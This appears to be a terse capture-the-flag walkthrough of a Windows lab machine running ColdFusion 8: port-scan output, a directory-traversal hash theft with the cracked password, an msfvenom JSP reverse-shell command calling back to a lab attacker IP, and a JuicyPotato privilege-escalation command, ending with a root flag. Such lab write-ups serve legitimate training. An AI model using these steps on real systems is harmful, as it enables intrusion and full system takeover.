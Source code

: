 ### Scan
```
--------------------Starting Vulns Scan-----------------------

Running CVE scan on all ports



PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows



Running Vuln scan on all ports
This may take a while, depending on the number of detected services..



PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
### Enum
8500
Directory Listing via http
research on cold. Fusion 8 admin portal, directory traversal for passwd hash
https://nets.ec/Coldfusion_hacking read up on it here. 
pwd hash `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` - `happyday`
When logged in, we can look at mappings to see where to potentially place files. ` C:\ColdFusion8\wwwroot\CFIDE`
Once found, go to scheduled tasks, and use python link to serve jsp web executable shell from msfvenom.

`msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.11 lport=4321 -f raw -o pwn.jsp`

![Image](/assets/Screenshot 2024-10-05 at 8.57.19 AM.png)

Go back to initial directory, and nagivate to the web shell

![Image](/assets/Screenshot 2024-10-05 at 8.57.02 AM.png)

Shell ![Image](/assets/Screenshot 2024-10-05 at 8.57.38 AM.png)

SEImpersonate! Juicy pot! Rev shell!

make and go to temp dir. Move files over with certutil. then start listener for higher priv shell

`jp.exe -l 9999 -p rev.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}`

higher priv!![Image](/assets/Screenshot 2024-10-05 at 9.06.10 AM.png)

ROOT:47526c0fca39f552b54dc6b755bc82cb

### Init
### Priv Esc